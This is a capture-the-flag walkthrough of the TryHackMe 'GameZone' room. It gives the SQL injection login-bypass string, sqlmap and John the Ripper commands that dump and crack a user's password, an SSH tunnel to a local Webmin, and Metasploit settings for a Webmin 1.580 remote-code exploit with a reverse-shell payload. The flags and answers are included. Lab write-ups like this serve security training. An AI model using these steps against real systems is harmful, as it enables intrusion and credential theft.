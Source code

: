 # GameZone

#### Task 1

Completed all required steps like to start the machine and connect with tryhackme vpn. 

##### Question: What is the name of the large cartoon avatar holding a sniper on the forum?
##### Solution:

I entered the IP of target machine in browser and gun man shown in the page. I took it's screenshot and done google lens on it. I came to found it's name.
##### Answer: agent47

#### Task 2

##### Question: When you've logged in, what page do you get redirected to? 
##### Solution: 
I tried to log in with the given payload of sqli. And I left the 

```bash
' or 1=1-- -
```

We successfully logged in. 

![Alt text](../Screenshots/GameZone/Portal.png)

Now look into the browser search bar at the top.
##### Answer: portal.php

#### Task 3

Now at portal.php, there is a search option. I captured the request in burpsuite and saved it into request.txt so that I can use it into sqlmap.

```bash 
sqlmap -r request.txt --dump
```

And it dump the whole database because searchitem parameter is vulnerable. It gave me the database tables like post and users.

##### Question: In the users table, what is the hashed password?
##### Solution: 
![Alt text](../Screenshots/GameZone/hash.png)

##### Question: What was the username associated with the hashed password?
##### Solution: `agent47`(Can see in the above image).

##### Question: What was the other table name?
##### Solution: 
![Alt text](../Screenshots/GameZone/table_name.png)
##### Answer: post

##### Question: What is the de-hashed password?
##### Solution: 
Now it's time to crack the password. We are using johntheripper to crak it. Save the hashed password in hash.txt and run the following command:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

![Alt text](../Screenshots/GameZone/de_hashed_password.png)

##### Answer: videogamer124

##### Question: What is the user flag?
##### Solution: 
Now you have username and password. Run the ssh command in order to remotely connect with the machine.

```bash
ssh agent47@target_ip
```

Run `cat user.txt` in the target machine and you will get the user flag.

![Alt text](../Screenshots/GameZone/user_flag.png)

#### Task 5

##### Question: How many TCP sockets are running?
#### Solution:
We need to check that how many tcp sockets are open at target machine. Run the following command on target:

```bash
ss -tulnp
```
![Alt text](../Screenshots/GameZone/tcp_sockets.png)

You can count the tcp sockets opened in above image. 
#### Answer: 5

##### Question: What is the name of the exposed CMS?
##### Solution: 
Run the following command in your terminal (terminal of attacker machine).

```bash
ssh -L 10000:localhost:10000 agent47@<target_ip>
```

You can notice that port 10000 is opened for ssh. You can confirm it using the command `ss -tulnp`. It will show that port 10000 is opened.

Now you can make a request in your browser (attacker machine) like following:

```
http://localhost:10000
```
![Alt text](../Screenshots/GameZone/webmin_login.png)

You can see that we have got the login page. 
##### Answer: webmin

##### Question: What is the CMS version?
##### Solution: 
You have the login and password. Try it. Boom! We logged into the webmin portal. 

![Alt text](../Screenshots/GameZone/cms_version.png)

##### Answer: 1.580

#### Task 6

##### Question: What is the root flag?
##### Solution:
As mentioned in the task, we need to use metasploit to exploit the cms version. I opened the Metasploit using the command `msfconsole` and type:
```bash
search 1.580
```
I have shown 2 exploits as shown in the picture:
![Alt text](../Screenshots/GameZone/available_exploits.png)

I selected 0th exploit as it allows us to execute the RCE. For that I used the command `use 0`. Now using the command `show options` I checked which parameters I need to set. I then set the following parameters.

```bash
set RHOSTS 127.0.0.1
```

```bash
set USERNAME agent47
```

```bash
set password videogamer124
```

```bash
set SSL false
```

Then run the command `show payloads` in order to check the available options for this exploit.
![Alt text](../Screenshots/GameZone/available_payloads.png)

Then I selected the payload `payload/cmd/unix/reverse` using the command:

```bash
set payload payload/cmd/unix/reverse
```
Now run `show options` commands then You will find that LHSOT needs to be set for payload. Run the command:

```bash
set LHOST <attacker_ip>
```

![Alt text](../Screenshots/GameZone/exploit_options.png)

In the above picture you can see the final parameters set. Now run the command `exploit`. 

Boom! We got the root access.

![Alt text](../Screenshots/GameZone/root_shell.png)

Now You can find the flag in /root/root.txt.

![Alt text](../Screenshots/GameZone/root_flag.png).

